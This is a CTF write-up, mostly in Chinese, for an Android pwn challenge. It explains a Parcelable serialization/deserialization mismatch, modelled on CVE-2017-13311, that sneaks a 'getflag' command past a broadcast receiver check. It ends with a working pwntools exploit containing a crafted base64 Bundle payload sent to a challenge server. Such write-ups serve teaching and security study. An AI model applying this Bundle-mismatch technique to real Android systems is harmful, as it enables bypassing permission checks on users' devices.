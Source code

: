 ## BroadCastTest
[中文](./README_zh.md) [English](./README.md)

[attachment](./BroadcastTest.apk)

[docker](./docker.zip)

这道题是一道android pwn
主要的漏洞点是关于序列化与反序列化不匹配的漏洞
这道题主要是由CVE-2017-13311等启发而成

可以阅读https://xz.aliyun.com/t/2364, 这篇文章，里面详细的说明了类似漏洞的原理

在apk中，首先读取了Base64字符串，base64decode之后将其作为一个Bundle放到广播中，发送给Receiver2
Receiver2接收到广播，取出Bundle，再从Bundle里面取出key为command的值，判断是否为getflag，不是的话就可以继续广播到Receiver3
Receiver3接收到广播，取出Bundle，判断command是否为getflag，是的话就输出Congratulation

正常途径是不能绕过这个判断的，但是在apk中存在一个com.de1ta.broadcasttest.MainActivity$Message类，里面的序列化和反序列化是不匹配的

在Receiver2中判断会command是否为flag会导致Bundle进行反序列化，之后发送给Receiver3的时候会进行序列化，最后Receiver3接收到Bundle后会进行最后一次反序列化

利用漏洞，可以在Receiver2中反序列化的时候获取不到key为command的string，在序列化之后就出现了key为command，值为getflag的string，然后Receiver3的check就能通过，最终获取到flag

下面是exp
```
from pwn import *
import base64
from hashlib import sha256
import itertools
import string
context.log_level = 'debug'

def proof_of_work(chal):
    #for i in itertools.permutations(string.ascii_letters+string.digits, 4):
    for i in itertools.permutations([chr(i) for i in range(256)], 4):
        sol = ''.join(i)
        if sha256(chal + sol).digest().startswith('\0\0\0'):
            return sol


a = 'SAEAAEJOREwDAAAACAAAAG0AaQBzAG0AYQB0AGMAaAAAAAAABAAAACwAAABjAG8AbQAuAGQAZQAxAHQAYQAuAGIAcgBvAGEAZABjAGEAcwB0AHQAZQBzAHQALgBNAGEAaQBuAEEAYwB0AGkAdgBpAHQAeQAkAE0AZQBzAHMAYQBnAGUAAAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAwAAAA0AAAA0AAAADQAAAAAAAAAHAAAAYwBvAG0AbQBhAG4AZAAAAAAAAAAHAAAAZwBlAHQAZgBsAGEAZwAAAAcAAABjAG8AbQBtAGEAbgBkAAAAAAAAAA0AAABQAGEAZABkAGkAbgBnAC0AVgBhAGwAdQBlAAAA'
b = base64.b64decode(a)
p = remote('206.189.186.98', 8848)
p.recvuntil('chal= ')
chal = p.recvuntil('\n')[:-1]
p.recvuntil('>>\n')
sol = proof_of_work(chal)
p.send(sol)
p.recvuntil('size')
p.sendline(str(len(b)))
p.recvuntil('please input payload:')
p.send(b)
p.interactive()
```
